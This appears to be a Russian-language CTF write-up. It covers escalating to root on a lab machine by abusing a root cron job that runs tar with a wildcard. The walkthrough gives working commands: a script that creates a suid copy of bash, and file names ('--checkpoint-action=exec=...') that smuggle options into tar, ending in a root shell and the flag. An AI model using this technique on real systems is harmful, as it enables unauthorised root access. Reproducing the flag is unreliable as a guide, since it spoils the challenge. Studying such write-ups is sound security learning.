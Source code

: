Цепляемся по ssh:

```
ssh quentin@example.com -p PORT
```

Забираем первую часть флага и изучаем, где оказались. В директории /opt находим скрипт backup.sh, его содержимое: 

```
#!/bin/bash
touch /var/log/cron.log
crontab /etc/cron.d/backup
cd /home/quentin
tar -czf /backups/backup.tar.gz *
```

Эту же задачу находим в /etc/cron.d/backup:

<img width="457" alt="image" src="https://github.com/user-attachments/assets/b2f3bb31-7512-46fd-85a9-72a48106078a">


Проверив директорию backups, убеждаемся, что бекап создается рутом, следовательно и задача выполняется от рута:

<img width="588" alt="image" src="https://github.com/user-attachments/assets/37e9700a-0ae8-42ee-a7c1-42aa84336ca3">


Внимательно изучив скрипт, можно увидеть вектор повышения привилегий через tar – Wildcard injection.

Для повышения привилегий сделаем следующее:
- Переместимся в директорию /home/quentin, содержимое которой и передается в tar:
  
  ```
  cd /home/quentin
  ```
  
- Создадим небольшой скрипт, который будет копировать бинарник /bin/bash и присваивать ему suid, назовем его tql.sh:
  
  ```
  echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > tql.sh
  ```
  
- Создадим файл --checkpoint, который и станет нашей инъекцией:
  
  ```
  touch /home/quentin/--checkpoint=1
  touch /home/quentin/--checkpoint-action=exec=sh\ tql.sh
  ```
  
- Ждем минуту, пока крон сделает свое дело и проверяем директорию /tmp:

<img width="595" alt="image" src="https://github.com/user-attachments/assets/a0adf71d-0ef1-4418-9870-0c0da8cfdfbc">


- Запускаем /tmp/bash с сохранением прав, забираем рута и вторую часть флага
  
  ```
  quentin@66a45affd54c:/app$ /tmp/bash -p
  bash-5.1# id
  uid=1000(quentin) gid=1000(quentin) euid=0(root) egid=0(root) groups=0(root),1000(quentin)
  ```

## Ответ:
### tqlCTF{4_h1dd3n_t3mpL3_h1d3s_d4ng3r0us_s3cr3ts}
